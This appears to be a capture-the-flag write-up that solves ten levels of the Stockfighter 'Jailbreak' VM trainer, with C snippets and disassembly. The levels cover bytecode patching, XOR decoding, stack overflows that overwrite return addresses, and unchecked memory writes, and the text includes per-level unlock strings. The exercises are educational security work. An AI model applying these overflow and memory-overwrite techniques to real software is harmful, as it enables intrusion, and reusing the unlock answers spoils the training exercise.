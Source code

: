 # Stockfighter Jailbreak Trainer Writeup
https://www.stockfighter.io/trainer/

## Level 1
Not much needs to be said about this one.  But some useful observations:

`svm_` seems to be the prefix for the external calls we can make.
SVM = Stockfighter VM.

The C code compiles to bytecode, displayed on the right of the source viewer.  The most important thing to note is that function calls are interrupts, which are handled by the `externalCall` function.  There is a vector table around 0x100 which lists the addresses for the interrupts (note they need to be multiplied by 2 as they are word addressed).

```
int
main() {
  field_unlock();
  return 0;
}
```

## Level 2
This level makes clear that reading the White Dox and Black Dox is very helpful.

Guessing that 'encraption' probably means a simple XOR, examine the `svm_recover_unlock_code` disassembly and discover that it xors the verifier stored in memory with 2.

```
int
main() {
  field_unlock("21526881b5e5da9c0e6ddaed2de87372e0fc0a2432c2057ef996f2390567e95f");
  return 0;
}
```

## Level 3
As the Black Dox say, debugging is helpful here.  Note that the generated assembly produces a function called `unlock()`.  Calling it doesn't seem to work, but let's debug further.

Run `hits` in the debugger to see the calls that are executed.  We can break execution just after the `sprintf` in `svm_field_unlock` at 0x0ae0 and grab the unlock code.  If we call `field_unlock` with the correct parameters then we're in.

```
int
main() {
  field_unlock("1d93be6a9db6cc404a602f0552f9fe7f164eb8ebfaba18fd878ee70cf1c72c81", "Diversey");
  return 0;
}
```

## Level 4
Again reading the Block Dox, note that we need to call the unlock interrupt directly from the assembly.  Time for some blob perturbation.  Inspect the assembly to find that the correct interrupt for `svm_field_unlock` is 14.  Call the compile API and convert the produced raw (base64) to hex:

```
0000	0a:00:00:00:00	ENT	0
0005	05:00:00:00:80	IMM	128
000a	34	PUSHARG
000b	05:00:00:00:c1	IMM	193
0010	34	PUSHARG
0011	22:00:00:00:02	INT	2
0016	0b:00:00:00:02	ADJ	2
001b	05:00:00:00:00	IMM	0
0020	0c	RET
0021	0c	RET
```

Find the interrupt, `22:00:00:00:02	INT	2` and modify it so the correct interrupt is called: `22:00:00:00:14	INT	14`.  Convert back to base64 and send this modified input to the run API.

```
int
main() {
  // modify this directly in the assembly to call field_unlock instead
  printstring("6f9d66b19318502d8cb264bab9acb74e89bf36d2a2fad474382d3455f8b488dd", "Racine");
  return 0;
}
```

## Level 5
Observe that the output of the `status()` function indicates that it is privileged.  Break execution just after the `decrypt_function` has run to grab the decrypted instructions:

```
unlock
...
00b8    05:00:00:00:80    IMM    128
00bd    0d    LI    
00be    34    PUSHARG    
00bf    22:00:00:00:07    INT    7
00c4    0b:00:00:00:01    ADJ    1
...
status
...
00fc	05:00:00:00:80	IMM	128
0101	11	PSH
0102	05:00:00:00:01	IMM	1
0107	0f	SI
0108	05:00:00:00:80	IMM	128
010d	0d	LI
010e	34	PUSHARG
010f	22:00:00:00:08	INT	8
0114	0b:00:00:00:01	ADJ	1
...
```

Observe that it's setting the byte at 128 (0x80) to 1 just before calling the `field_status` interrupt.  Observe that `unlock()` is passing in the byte at 128 (0x80) as a parameter to `field_unlock` but is not setting it.  Set it to 1 manually and we're in.

```
int
main() {
  int *flag = 0x80;
  *flag = 1;
  unlock();
  return 0;
}
```

## Level 6
A simple stack overflow.  We want to rewrite the (VM level) return address to our `field_unlock` call, so compile the code and discover the address in the compiler.  Find out how much data we need to pass in to hit the return address and then overwrite it.

```
int
main() {
  status("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18\x03");
  field_unlock();
  return 0;
}
```

## Level 7
Observe that the `int` passed in to the blob functions is a memory address, and that this address is never validated.

Observe also that we need to change the name of the level stored in memory.  Overwrite this, as well as the return address in the stack (AVR level this time) to take us into `field_unlock` after the `field_service` check has taken place at 0x0b00.

The first two bytes used by `blob_fill()` are the length, so use address 0x0351 to avoid overwriting too much memory.

```
int
main() {
  blob_fill(0x0351, "[running]..{\"level\":\"Lake\",\"verifier\":\"%s\"}");
  blob_fill(0xee86, "\x0b");
  return 0;
}
```

## Level 8
Observe that the memory address passed in is now validated, but the string written to by `blob_recover` is not.  Write over the return address to take us into `field_unlock` after the `field_service` check has taken place.

```
int
main() {
  int blob = blob_get(3);
  blob_fill(blob, "\x0b\x54");
  blob_recover(0xfd88, blob);
  return 0;
}
```

## Level 9
Follow the Black Dox and discover `svm_page`.  Observe that `svm_page` takes two parameters: the instruction memory address and the address of the instructions to overwrite with.  For simplicity, start at the beginning of `svm_field_unlock` (0x0a09) and write the same instructions, but NOPing out the `brne .78` at 0x0aca.

Note that `svm_page` is not in the vector table, so the blob must be perturbed.

Note also that 0xf is subtracted from the new instructions to write, hence 0x0086 instead of 0xf186.

```
int
main() {
  char *page="\x0f\x93\x1f\x93\xcf\x93\xdf\x93\xcd\xb7\xde\xb7\xc0\x58\xd1\x09\x0f\xb6\xf8\x94\xde\xbf\x0f\xbe\xcd\xbf\x80\x91\xd1\x04\x90\x91\xd2\x04\xa0\x91\xd3\x04\xb0\x91\xd4\x04\x01\x97\xa1\x05\xb1\x05\x00\x00\x83\xea\x98\xe0\x9f\x93\x8f\x93\x86\xe4\x93\xe0\x9f\x93\x8f\x93\x8e\x01\x0f\x5f\x1f\x4f\x1f\x93\x0f\x93\x0e\x94\x27\x1c\xf8\x01\x01\x90\x00\x20\xe9\xf7\xaf\x01\x41\x50\x51\x09\x40\x1b\x51\x0b\xb8\x01\x84\xe2";
  // Change this interrupt to interrupt 28 in the returned blob
  field_unlock(0xa9a,0x0086);
  field_unlock();
  return 0;
}
```

## Level 10
Another simple stack overflow.  Note that `sprintf` in the `_log()` function does not restrict the input buffer.  Note also that like level 7 we have to change the level name.  If we set the return address to the `sprintf` in `svm_field_unlock` we have enough control of the stack that we can choose the arguments that are passed: pass in our own format string instead of the stored one.

```
int
main() {
  status("BABABABABABABABABABABABABABABABABAB\x0a\xe6\x42\x41\xb3\xf1\xab\x08\x29\x3a{\"level\":\"Kedzie\",\"verifier\":\"%s\"}");
  return 0;
}
```
